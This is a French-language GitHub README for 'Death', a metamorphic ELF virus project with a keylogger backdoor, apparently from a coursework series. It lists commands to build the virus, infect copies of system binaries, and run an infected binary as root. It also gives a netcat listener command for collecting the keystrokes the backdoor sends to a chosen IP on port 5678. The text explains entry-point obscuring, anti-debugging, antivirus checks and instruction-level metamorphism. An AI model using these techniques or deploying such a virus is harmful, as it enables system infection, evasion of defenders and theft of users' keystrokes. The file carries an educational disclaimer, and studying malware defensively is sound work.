 # Death

[@arobion][arobion]
Sommaire:
```
  I	- Usage
  II	- Description
  III	- Fonctionement
        - Infection
          - Entry-Point Obscuring (EPO) technique
          - Insertion
        - Obfuscation
          - Anti debug
            - Anti breackpoint
            - Anti ptrace
            - Anti step by step
            - Section header obfuscation
            - Verification si un anti-virus
            - Close EPO
          - Polymorphisme
          - Metamorphisme
        - Backdoor
```
> ATTENTION : Ce projet est uniquement a **but pedagogique**.

## I - Usage

```shell
$> make
$> ./create.sh #cree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin
$> ./death #infecte les deux dossiers
$> ./check.sh	#verifie si il y a des binaires infecte dans /tmp/test1 et /tmp/test2
$> ./infect.sh	#copie /tmp/test1/ls -> ./infected, recree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin et les infectes a partie de ./infected

#pour l'utilisation de la backdoor:
#modifier l'adresse IP dans ./src_s/anti_data.s
#etre en root et lancer infected
$> sudo ./infected
#sur le poste qui a cette adresse IP lancer la commande
$> nc -l 5678 > keylogger.txt
#pour traduire les touches
$> python3 translate.py keylogger.txt
```

## II - Description

Ce projet est un virus metamorphique, qui est l'aboutissement de plusieurs projets:
- **WOODY-WOOPACKER**: Projet consistant a realiser un packer de elf64
- **FAMINE**: Projet consistant à cree un virus basique qui a pour but de simplement laisser une trace dans certains fichier contenu dans un dossier spécifique
- **PESTILENCE**: Projet consistant à cree un virus obfusqué
- **WAR**: Projet consistant à cree un virus polymorphique

## III - Fonctionement

### Infection:
  - **Entry-Point Obscuring (EPO) technique**:
  
    Cette technique d'infection consiste à ouvrir plusieurs portes dans le binaire infecté, en remplacant dans celui-ci les appels de certaines fonctions par un jump sur notre virus et d'y revenir ensuite à la fin de l'execution de notre virus.
    Pour ce faire nous avons decidé d'infecter un binaire si il a plus de 50 call valides. C'est a dire une fonction commencant par le prolog ou alors si elle fait partie de la GOT.
  - **Insertion**:
  
    Nous placons une partie de notre virus dans le padding de la section .text et le reste apres le .bss

### Obfuscation:

  #### Anti-debug:
  - **Anti breakpoint**:
      
      Voir la section Polymorphisme.
  
  - **Anti ptrace**:
      
      Au lancement de la routine d'infection sur un binaire infecte, nous creons un enfant avec la commande ```fork```.
      
      Dans cet enfant nous essayons d'attacher le parent avec commande ```ptrace```, si l'attachement ne fonctionne pas nous arretons la routine d'infection.
      
      Si l'attachement fonctionne, nous allons dans l'enfant faire excuter la partie hash du pere et recuperer cette valeur.
      
      Ensuite dans l'enfant on vas executer la partie dechiffrement, et nous alons faire jump le parent à la valeur obtenue.
  
  - **Anti step-by-step**:
      
      Vérification du Time-Stamp Counter grace à l'insctrution ```rdtsc```.
      
      Verification du RFLAGS TF grace à l'insctruction ```pushfq```.
      
  - **Section header obfuscation**:
  
      Nous corrompons la section header pour ne plus avoir d'information sur le binaire infecte.
      
  - **Verification si un anti-virus**:
  
      Nous recherchons si il y a un process avec le nom ```je sais plus```, si il est actif nous ne lancons pas notre virus.
      
  - **Close EPO**:
      
      Apres le premier passage dans notre virus nous refermons les EPO pour ne plus repasser dans notre virus jusqu'a la fin de l'execution du programme.
  
  #### Polymorphisme:
  
  #### Metamorphisme:
  
   Nous avons dispatché dans la partie du virus non polymorphique des placeholder.
    Nous les remplacons de maniere aleatoire à chaque infection ces placeholder par differentes instructions.
    
| Exemples d'instructions | | | | | | 
| ------ | ------ | ------ | ------ | ------ | ------ |
| push rax  | nop | inc rax | dec rax | nop | push rax |
| nop | push rax | dec rax | inc rax | nop | pop rax |
| nop | pop rax | . | . | push rax | nop |
| pop rax | nop | . | . | pop rax | nop |

### Backdoor:
  La backdoor est un keylogger qui envoi les touches sur une adresse IP renseigné dans ./srcs_s/anti_data.s sur le port 5678.




[arobion]: <https://github.com/arobion>
